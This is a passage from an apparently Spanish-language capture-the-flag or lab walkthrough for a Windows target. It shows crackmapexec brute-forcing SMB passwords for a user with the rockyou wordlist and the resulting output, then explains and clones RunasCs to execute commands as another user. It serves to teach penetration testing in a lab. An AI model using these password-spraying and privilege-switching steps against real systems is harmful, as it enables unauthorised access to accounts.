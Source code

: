   Una vez sabemos que el usuario administrador es **akanksha** hacemos fueza bruta como antes

  ```ruby
 
    ┌──(root㉿kali)-[/home/user]
    └─$ # crackmapexec smb 192.168.56.102 -u akanksha -p /usr/share/wordlists/rockyou.txt
    SMB         192.168.56.102   445    WIN-IURF14RBVGV  [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-IURF14RBVGV) (domain:WIN-IURF14RBVGV) (signing:False) (SMBv1:False)
    SMB         192.168.56.102   445    WIN-IURF14RBVGV  [-] WIN-IURF14RBVGV\akanksha:jessica STATUS_LOGON_FAILURE
    SMB         192.168.56.102   445    WIN-IURF14RBVGV  [-] WIN-IURF14RBVGV\akanksha:michelle STATUS_LOGON_FAILURE
    SMB         192.168.56.102   445    WIN-IURF14RBVGV  [-] WIN-IURF14RBVGV\akanksha:tigger STATUS_LOGON_FAILURE
    SMB         192.168.56.102   445    WIN-IURF14RBVGV  [+] WIN-IURF14RBVGV\akanksha:sw****
  ```
  Ya hemos encontrado la contraseña, pero...

  Aunque esta contraseña es válida para el servicio SMB, no lo es para WinRM, así que debemos pensar en otra forma de entrar.


  Ya que tenemos una shell, podríamos pensar en usar **runas**, pero nuestra shell no es interactiva, por lo que podríamos importar el módulo de [**RunasCs**](https://github.com/antonioCoco/RunasCs) para solucionar ese problema.


## Qué es runas?
  Es un comando de la línea de sistemas operativos Microsoft Windows que permite a un usuario ejecutar herramientas y programas específicos bajo un nombre de usuario diferente al que utilizó para iniciar sesión en una computadora de forma interactiva


## Qué es RunasCs ?
  RunasCs es una herramienta escrita en C# que simula el comportamiento de runas, pero:

  1. No necesita interacción directa.
  2. Puedes pasarle el usuario y la contraseña directamente por línea de comandos.
  3. Ejecuta comandos como otro usuario desde la shell remota.



  Nos descargamos **RunasCs**
  ```ruby
  
    ┌──(root㉿kali)-[/home/user]
    └─# git clone https://github.com/antonioCoco/RunasCs.git
    Cloning into 'RunasCs'...
    remote: Enumerating objects: 371, done.
    remote: Counting objects: 100% (206/206), done.
    remote: Compressing objects: 100% (108/108), done.
    remote: Total 371 (delta 131), reused 145 (delta 98), pack-reused 165 (from 1)
    Receiving objects: 100% (371/371), 331.19 KiB | 36.00 KiB/s, done.
    Resolving deltas: 100% (231/231), done.
  
   ```
  Una vez finalizada la instalación del repositorio, nos conectaremos como el usuario **nica** e importaremos **RunasCs** 
